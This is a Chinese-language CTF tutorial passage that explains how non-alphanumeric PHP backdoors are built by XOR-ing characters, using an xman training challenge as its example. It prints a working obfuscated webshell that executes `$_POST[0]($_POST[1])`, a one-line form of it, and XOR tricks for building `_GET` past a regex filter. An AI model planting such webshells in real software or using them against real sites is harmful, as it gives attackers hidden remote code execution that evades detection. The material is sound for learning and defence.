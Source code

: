 我们一起来分析一下上面这段代码：

1、`$_++; ` 这行代码的意思是对变量名为 `"_"` 的变量进行自增操作，在 `PHP` 中未定义的变量默认值 `null` ，`null==false==0` ，我们可以在不使用任何数字的情况下，通过对未定义变量的自增操作来得到一个数字。

2、`$__="?" ^ "}"; ` 对字符 `?` 和 `}` 进行异或运算，得到结果 `B` 赋给变量名为 `__` (两个下划线)的变量

3、`$ __ (); ` 通过上面的赋值操作，变量 `$__` 的值为 `B` ，所以这行可以看作是 `B()` ，在 `PHP` 中，这行代码表示调用函数 `B` ，所以执行结果为 `Hello Angel_Kitty` 。在 `PHP` 中，我们可以将字符串当作函数来处理。

看到这里，相信大家如果再看到类似的 `PHP` 后门应该不会那么迷惑了，你可以通过一句句的分析后门代码来理解后门想实现的功能。

我们希望使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如 `_POST` ， `system` ， `call_user_func_array `，或者是任何我们需要的东西。

下面是个非常简单的非数字字母的 `PHP` 后门：

```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在这里我说明下， `.=` 是字符串的连接，具体参看 `PHP` 语法

我们甚至可以将上面的代码合并为一行，从而使程序的可读性更差，代码如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我们回到 `xman` 训练赛的那题来看，我们的想法是通过构造异或来去绕过那串字符，那么我们该如何构造这个字串使得长度小于 `40` 呢？

我们最终是要读取到那个 `getFlag` 函数，我们需要构造一个 `_GET` 来去读取这个函数，我们最终构造了如下字符串：

![](./php/figure/preg_match/payloads.png)

可能很多小伙伴看到这里仍然无法理解这段字符串是如何构造的吧，我们就对这段字符串进行段分析。

#### ① 构造 `_GET` 读取

首先我们得知道 `_GET` 由什么异或而来的，经过我的尝试与分析，我得出了下面的结论：

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

这段代码一大坨是啥意思呢？因为40个字符长度的限制，导致以前逐个字符异或拼接的webshell不能使用。  
这里可以使用php中可以执行命令的反引号 `` ` `` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一个字符
- `` ` 表示执行命令
- `" ` 对特殊字符串进行解析
